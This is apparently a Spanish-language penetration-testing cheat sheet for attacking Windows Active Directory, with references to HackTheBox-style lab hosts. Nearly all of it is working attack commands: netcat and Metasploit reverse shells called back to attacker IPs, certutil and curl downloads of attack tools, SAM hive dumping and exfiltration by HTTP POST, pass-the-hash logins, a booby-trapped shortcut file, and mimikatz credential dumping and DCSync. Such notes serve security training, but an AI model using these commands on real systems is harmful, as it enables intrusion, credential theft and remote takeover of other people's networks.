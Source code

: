```yaml
---
{"-publish":true,"permalink":"/penetration-tester-path/active-directory/","PassFrontmatter":true}
---
```



Active Directory (AD) es un servicio de directorio para su uso en un entorno Windows Server. Se trata de una estructura de base de datos distribuida y jerárquica que comparte información de infraestructura para localizar, proteger, administrar y organizar los recursos del equipo y de la red, como archivos, usuarios, grupos, periféricos y dispositivos de red.


## Enumeration

- Crackmapexec:

``` sh
crackmapexec smb 192.168.xx.xx -u . -p '' \
--pass-pol --shares --computers \ --groups --local-groups --rid-brute
```

- Remote Desktop (RDP):

``` javascript
xfreerdp /u:'xxxx' /p:'xxxx' /v:'192.168.xx.xx' /tls-seclevel:0
```

--- 

## Privilege Escalation

- Metasploit:

``` javascript
[*] Start 'hta_server' for reverse shell
rlwrap msfconsole -q -x "use exploit/windows/misc/hta_server; set LHOST 10.10.16.13; set SRVHOST 10.10.16.13; run"

[*] Started reverse TCP handler on 10.10.16.13:4444 
[*] Using URL: http://10.10.16.13:8080/nZzLAD.hta
[*] Server started.

[*] Run on Windows machine
mshta.exe http://10.10.16.13:8080/nZzLAD.hta

[*] Meterpreter
sessions -i
sessions -i 1,2,3 etc

[*] Escalate with 'getsystem'
meterpreter > getsystem
```

- RunAsCs.exe:

``` javascript
.\runascs.exe sql_svc WqSZAF6CysDQbGb3 --logon-type 5 -b "cmd /c whoami /priv"
```

- GodPotato (SeImpersonatePrivilege):

``` javascript
certutil -urlcache -f http://10.10.16.10:8088/nc.exe C:\programdata\nc.exe
certutil -urlcache -f http://10.10.16.10:8088/GodPotato-NET4.exe C:\programdata\GodPotato-NET4.exe
C:\programdata\GodPotato-NET4 -cmd "C:\programdata\nc.exe -e cmd.exe 10.10.16.10 4446"
```

- robocopy (SeBackupPrivilege):

``` javascript
robocopy /b \Users\Administrator\Desktop .
```

- impacket-secretsdump (SAM Local):

``` javascript
[*] From Windows victim
powershell -c reg save HKLM\SYSTEM SYSTEM.SAV
powershell -c reg save HKLM\SAM SAM.SAV
powershell -c compress-archive *.SAV SAM.zip
powershell -c iwr http://xxxx:xxxx -Method POST -InFile SAM.zip

[*] From Linux attacker
unzip -o SAM.zip
impacket-secretsdump \
LOCAL -sam SAM.SAV -system SYSTEM.SAV
```

- impacket-psexec (shell login):

``` javascript
[*] Using password:
impacket-psexec Administrator@xxxxxxxxxxx.xxx cmd.exe

Impacket v0.12.0.dev1 - Copyright 2023 Fortra

Password: xxxxxxxxxx

[*] Using hash
impacket-psexec Administrator@htb.local cmd.exe -hashes 'aad3b435b51404eeaad3b435b51404ee:32693b11e6aa90eb43d32c72a07ceea6'
```

- link files .lnk:

``` javascript
[*] upload nc.exe to the remote machine
curl xxxxxxxxxx:xxxx/nc.exe -O

[*] inject reverse shell
powershell "$s=(New-Object -COM WScript.Shell).CreateShortcut('C:\Common Applications\Notepad.lnk');$s.TargetPath='C:\Windows\System32\cmd.exe';$s.Arguments='/c \"C:\ProgramData\nc.exe xxxxxxxxxx xxxx -e cmd\"';$s.Save()"
```

---

### Tools:

- rubeus.exe

Rubeus es un kit de herramientas en C diseñado para la interacción y el abuso de Kerberos. Permite a los atacantes realizar diversos ataques basados ​​en Active Directory, como la extracción, falsificación y manipulación de tickets Kerberos.
``` javascript
curl xxxxxxxxxx:xxxx/rubeus.exe -O
.\rubeus.exe dump /nowrap
```

- rubeustoccache.py:

`rubeusTocCache.py` es un **script en Python** no oficial que sirve para **convertir tickets Kerberos (TGT o TGS)** generados por la herramienta **Rubeus** (Windows) al **formato `ccache`**
``` python
python3 rubeustoccache.py 'BASE64==' admin admin;export KRB5CCNAME=admin
```

- mimikatz.exe:
es una **herramienta de post-explotación** extremadamente poderosa, usada principalmente por **red teamers, pentesters y atacantes** para manipular, extraer o abusar de credenciales en sistemas Windows. 
``` javascript
curl xxxxxxxxxx:xxxx/mimikatz.exe -O
.\mimikatz.exe "privilege::debug" "sekurlsa::minidump lsass.dmp" "sekurlsa::logonpasswords" exit
.\mimikatz.exe "lsadump::dcsync /domain:xxxxxxxxxx.htb /user:Administrator" exit
```

- powerview.ps1:

PowerView es una herramienta PowerShell para obtener conciencia situacional de red en los dominios de Windows. Contiene un conjunto de reemplazos de Pure-Powershell para varios comandos "netos" de Windows, que utilizan ganchos AD PowerShell y funciones de API WIN32 subyacentes para realizar una funcionalidad útil de dominio de Windows.
``` sh
curl xxxxxxxxxx:xxxx/powerview.ps1 -O
powershell Import-Module .\powerview.ps1
Get-NetDomain
Get-LocalUser
Set-DomainObject -Identity USERNAME -SET @{serviceprincipalname='SET/SET'}; Get-DomainSPNTicket -spn SET/SET
```


- certutil:

``` javascript
[*] dump to get 'Config:'
certutil -dump

CA Server: DC01.mist.htb
CA Name: mist-DC01-CA
Config: DC01.mist.htb\mist-DC01-CA
```


